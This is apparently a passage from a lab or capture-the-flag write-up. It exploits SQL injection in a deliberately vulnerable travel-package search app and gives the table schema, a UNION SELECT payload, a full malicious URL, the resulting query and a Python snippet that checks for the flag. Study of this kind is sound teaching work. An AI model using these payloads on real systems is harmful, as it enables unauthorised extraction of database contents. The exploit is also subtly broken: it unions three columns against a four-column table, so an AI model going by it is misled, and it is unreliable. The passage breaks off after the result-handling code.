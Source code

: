 ## **2. Exploitation Scenario**

### **Objective**

An attacker aims to retrieve sensitive information from the `secrets` table, which contains a congratulatory message indicating a successful exploitation.

### **Steps to Exploit**

1. **Understanding Database Schema:**
   
   - **`packages` Table:**
     - `id`: INTEGER
     - `destination`: TEXT
     - `description`: TEXT
     - `price`: REAL
     
   - **`secrets` Table:**
     - `id`: INTEGER
     - `secret`: TEXT

2. **Crafting the Malicious Input:**
   
   The attacker can use a **UNION SELECT** statement to combine results from the `packages` table with the `secrets` table. For example:
   
   ```
   destination = 'Paris' UNION SELECT id, secret, price FROM secrets --
   ```
   
   - **Explanation:**
     - `'Paris'` ensures that the original query returns legitimate data.
     - `UNION SELECT id, secret, price FROM secrets` appends the contents of the `secrets` table.
     - `--` comments out the rest of the SQL query to prevent syntax errors.

3. **Final Malicious URL:**
   
   ```
   http://<host>/search?destination=Paris' UNION SELECT id, secret, price FROM secrets --
   ```

4. **Execution:**
   
   The constructed SQL query becomes:
   
   ```sql
   SELECT * FROM packages WHERE destination = 'Paris' UNION SELECT id, secret, price FROM secrets --'
   ```
   
   This query retrieves all packages with the destination 'Paris' and appends the contents of the `secrets` table.

5. **Result Handling:**
   
   In the application code, after fetching the results, there's a check:
   
   ```python
   for row in results:
       if 'Congratulations' in str(row):
           return '<h1>{}</h1>'.format(row[1])
   ```
   